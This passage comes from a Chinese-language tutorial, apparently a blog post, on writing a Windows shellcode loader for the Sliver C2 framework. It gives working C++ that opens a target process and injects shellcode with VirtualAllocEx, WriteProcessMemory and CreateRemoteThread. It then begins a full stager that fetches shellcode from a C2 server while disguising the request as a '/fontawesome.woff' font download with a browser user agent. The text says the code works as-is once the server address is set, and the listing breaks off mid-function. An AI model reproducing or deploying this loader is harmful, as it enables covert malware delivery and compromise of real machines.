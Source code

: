 其次就是注入代码部分，打开目标进程使用OpenProcess函数

```cpp
// 打开进程后返回句柄
// OpenProcess(访问的权限，继承，pid)
hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
            PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
            FALSE, (DWORD)pid);
```

注入部分就是经典的三件套了

- VirtualAllocEx 申请内存
- WriteProcessMemory 拷贝shellcode
- CreateRemoteThread 创建执行线程

```cpp
int Inject(HANDLE hProc, BYTE* payload, DWORD payload_len) {
    LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;
    // VirtualAllocEx()改变一个指定进程的虚拟地址空间中的存区域的状态
    // (进程句柄，起始地址，分配的内存大小，内存分配的类型，分配内存的权限)
    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    // WriteProcessMemory()将数据写到指定进程中的一个内存区域
    // (目标进程，写入的起始地址，写入的数据，写入大小)
    WriteProcessMemory(hProc, pRemoteCode, payload, payload_len, NULL);
    // CreateRemoteThread()创建一个在另一个进程的虚拟地址空间中运行的线程
    hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);
    if (hThread != NULL) {
        // 等待0.5秒
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}
```

### 快速上手 - 完整代码 ?

剩下部分就是下载模块了，这部分就直接参考上篇的 C++ Stager 即可，最终的完整代码如下。后续直接修改 Sliver C2 服务器地址和端口即可直接使用。

```cpp
#include <windows.h>
#include <wininet.h>
#include <tlhelp32.h>
#include <stdio.h>
#pragma comment (lib, "Wininet.lib")

struct Shellcode {
    BYTE* data;
    DWORD len;
};

Shellcode Download(LPCWSTR host, INTERNET_PORT port) {
    HINTERNET session = InternetOpen(L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);

    HINTERNET connection = InternetConnect(session, host, port, L"", L"", INTERNET_SERVICE_HTTP, 0, 0);

    HINTERNET request = HttpOpenRequest(connection, L"GET", L"/fontawesome.woff", NULL, NULL, NULL, 0, 0);

    WORD counter = 0;
    while (!HttpSendRequest(request, NULL, 0, 0, 0)) {
```